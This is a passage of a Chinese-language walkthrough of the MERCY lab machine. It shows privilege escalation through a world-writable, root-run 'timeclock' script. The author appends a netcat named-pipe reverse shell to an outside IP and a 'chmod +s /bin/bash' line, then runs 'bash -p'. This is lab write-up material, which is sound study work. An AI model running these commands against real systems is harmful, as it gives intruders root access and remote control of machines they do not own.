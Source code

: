 **2、找 home 目录下的关键信息**

```bash
ls
fluffy	pleadformercy  qiu  thisisasuperduperlonguser
```

```bash
ls -al /home/fluffy/.private/secrets/timeclock
-rwxrwxrwx 1 root root 222 Nov 20  2018 /home/fluffy/.private/secrets/timeclock
```

看 timeclock 的权限，buff叠满了。再看看内容

```bash
fluffy@MERCY:~/.private/secrets$ cat timeclock
cat timeclock
#!/bin/bash

now=$(date)
echo "The system time is: $now." > ../../../../../var/www/html/time
echo "Time check courtesy of LINUX" >> ../../../../../var/www/html/time
chown www-data:www-data ../../../../../var/www/html/time
```

**3、顺从其内容看看**

```bash
fluffy@MERCY:~/.private/secrets$ cat ../../../../../var/www/html/time
cat ../../../../../var/www/html/time
The system time is: Sun Jul  9 10:57:01 +08 2023.
Time check courtesy of LINUX
```

这个显示了当前的日期时间，可能是个计划任务

**4、提权**

这时候可以写反弹shell

```bash
fluffy@MERCY:~/.private/secrets$ echo "rm -rf /tmp/p; mknod /tmp/p p; /bin/sh 0</tmp/p | nc 192.168.2.7 8888 1>/tmp/p" >> timeclock
<</tmp/p | nc 192.168.9.7 8888 1>/tmp/p" >> timeclock                        
fluffy@MERCY:~/.private/secrets$ 
```

也可以把 /bin/bash 加上 s 为权限

s权限的作用：表示对文件具用可执行权限的用户将使用文件拥有者的权限或文件拥有者所在组的权限在对文件进行执行。

[linux 文件 s 权限 - _H0f - 博客园 (cnblogs.com)](https://www.cnblogs.com/someone9/p/8551010.html#:~:text=s权限的作用：表示对文件具用可执行权限的用户将使用文件拥有者的权限或文件拥有者所在组的权限在对文件进行执行。 s权限的设置：4，用户拥有者的执行权限位， 6，用户组的执行权限位，,2， 两者都设置， 0， 两者都不设置。)

```
echo 'chmod +s /bin/bash' >> timeclock
```

```bash
fluffy@MERCY:~/.private/secrets$ ls -al /bin/bash
ls -al /bin/bash
-rwsr-sr-x 1 root root 986672 May 16  2017 /bin/bash
fluffy@MERCY:~/.private/secrets$ /bin/bash -p
/bin/bash -p
```
